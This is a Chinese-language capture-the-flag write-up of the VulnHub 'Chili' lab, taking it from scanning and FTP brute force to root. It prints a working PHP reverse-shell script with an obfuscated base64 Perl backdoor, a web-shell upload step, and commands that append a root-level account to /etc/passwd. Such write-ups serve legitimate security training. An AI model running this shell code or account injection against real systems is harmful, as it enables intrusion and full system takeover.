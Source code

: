 ```yaml
---
title: chili
---
```


# 描述

> - Difficulty: Easy
> - Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)
> - Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).
> - Information: Your feedback is appreciated - Email: suncsr.challenges@gmail.com
> - Hint : "If you ever get stuck, try again with the name of the lab"

# 信息收集

## arp-scan

使用arp-scan扫描内网，确定靶机IP

![image-20240709181821299](https://cdn.a1pha.cn/img/202407112352634.png)

## nmap

全端口扫描，并且确定所开放端口的服务以及对应的版本

```bash
nmap -sV -sC -p- 192.168.170.137
```

开放了21端口ftp服务，对应vsftpd 3.0.3

以及80端口的http服务，对应Apache2.4.38

![image-20240710132641807](https://cdn.a1pha.cn/img/202407112352636.png)

## dirseach

使用dirsearch扫目录，也没有扫出有用的东西

![image-20240710133422756](https://cdn.a1pha.cn/img/202407112352637.png)

## 查看源代码

在源代码中看到一个敏感词`keywords`内容为：Chili，结合靶机名字，猜测为ftp的用户名

![image-20240710133516341](https://cdn.a1pha.cn/img/202407112352638.png)

# 漏洞利用

## hydra爆破ftp弱口令

![image-20240711194440833](https://cdn.a1pha.cn/img/202407112352639.png)

## 超级弱口令爆破

![image-20240711194505949](https://cdn.a1pha.cn/img/202407112352640.png)

## 登录ftp

![image-20240711194623602](https://cdn.a1pha.cn/img/202407112352641.png)

进入到网站的根目录下可以看到`.nano`和`.vim`两个隐藏文件夹，其中`.nano`文件夹具有**任何用户都可以读取、修改或执行该目录中的文件或目录**的权限，而`.vim`目录只有**所有者可以读取、修改或执行该目录中的文件或目录，而组用户和其他用户只能读取和执行，但不能修改**的权限

![image-20240711200022620](https://cdn.a1pha.cn/img/202407112352642.png)

那么我们可以利用`.nano`目录的权限，上传一句话木马

## 一句话木马

上传一句话木马后使用蚁剑连接

![image-20240711202024498](https://cdn.a1pha.cn/img/202407112352643.png)

当我们直接点击打开root目录时，是会提醒权限不够的，所以要进行提权的操作

![image-20240711232306854](https://cdn.a1pha.cn/img/202407112352644.png)

## 反弹shell

因为蚁剑自带的虚拟终端很难用，所以还是要进行反弹shell的操作，以方便后续的提权操作

```php
<?php
function which($pr) {
	$path = execute("which $pr");
	return ($path ? $path : $pr);
	}
function execute($cfe) {
	$res = '';
	if ($cfe) {
		if(function_exists('exec')) {
			@exec($cfe,$res);
			$res = join("\n",$res);
			} 
			elseif(function_exists('shell_exec')) {
			$res = @shell_exec($cfe);
			} elseif(function_exists('system')) {
@ob_start();
@system($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(function_exists('passthru')) {
@ob_start();
@passthru($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(@is_resource($f = @popen($cfe,"r"))) {
$res = '';
while(!@feof($f)) {
$res .= @fread($f,1024);
}
@pclose($f);
}
}
return $res;
}
function cf($fname,$text){
if($fp=@fopen($fname,'w')) {
@fputs($fp,@base64_decode($text));
@fclose($fp);
}
}
$yourip = "your IP";
$yourport = 'your port';
$usedb = array('perl'=>'perl','c'=>'c');
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj".
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR".
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT".
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI".
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi".
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
cf('/tmp/.bc',$back_connect);
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &");
?> 
```

反弹成功

![image-20240711232550579](https://cdn.a1pha.cn/img/202407112352646.png)

## 提权

切换交互式shell

``` python
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![image-20240711232651731](https://cdn.a1pha.cn/img/202407112352647.png)

### enumy64

使用enumy64进行提权枚举

可以看到`/etc/passwd`文允许其他用户读取和修改

![image-20240711234018842](https://cdn.a1pha.cn/img/202407112352648.png)

那么，我们就可以利用这个漏洞，添加一个新的用户，并加入到管理员组里，即可实现提权

### 添加新用户

openssl生成密码

```bash
openssl passwd -1 -salt hack hack 
```

![image-20240711234128116](https://cdn.a1pha.cn/img/202407112352649.png)

写入`/etc/passwd`

```bash
echo 'hack:$1$hack$xR6zsfvpez/t8teGRRSNr.:0:0:root:/root:/bin/bash' >>/etc/passwd
```

![image-20240711234332197](https://cdn.a1pha.cn/img/202407112352650.png)

### 提权成功

切换用户即可看到当前用户已经成功加入到root组

![image-20240711234351350](https://cdn.a1pha.cn/img/202407112352651.png)

# flag

读取root目录下的proof.txt文件即可获取到flag

![image-20240711234542926](https://cdn.a1pha.cn/img/202407112352652.png)

# 参考&工具

- [Vulnhub Chili靶机详细解题过程](https://www.cnblogs.com/jason-huawen/p/16894316.html)
- [php反弹shell脚本](https://blog.csdn.net/a1_pha/article/details/135800772)
- [enumy](https://github.com/luke-goddard/enumy)
